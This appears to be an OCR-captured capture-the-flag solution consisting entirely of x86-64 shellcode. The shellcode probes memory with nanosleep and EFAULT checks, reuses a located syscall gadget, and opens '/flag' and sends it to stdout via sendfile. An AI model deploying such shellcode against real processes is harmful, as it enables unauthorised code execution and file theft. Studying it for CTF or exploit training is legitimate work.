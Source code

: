 ## Shellcode time!
```none
s:
    lea rsp, [rip + stash]
    pop rbp
    pop rdi
l:  add rdi, rbp
    push 35
    pop rax
    syscall
firstret:
    cmp al, -EFAULT
    je l

    pop rax
    lea rbx, [rdi + 0x192]

    lea rdi, [rip + s - 0xFC9 + 0x1000]
    pop rsi
    add rcx, rsi

    push rbp
    pop rsi
    pop rdx

    push rcx
    pop rcx
    jmp rbx

.zero 40
stash:
.8byte 0x1000
.8byte 1 << (11 * 4)
.8byte 10
.8byte cat_flag - firstret
.8byte 7
stash_end:
.zero 16

filename:
    .asciz "/flag"
cat_flag:
    // open
    lea rdi, [rip + filename]
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    lea rbp, [rip + fin]
    push rbp
    pop rbp
    jmp rbx

fin:
    mov rdi, 1
    mov rsi, rax
    mov rax, 40
    xor rdx, rdx
    mov r10, 0x100
    push 0
    call rbx
```
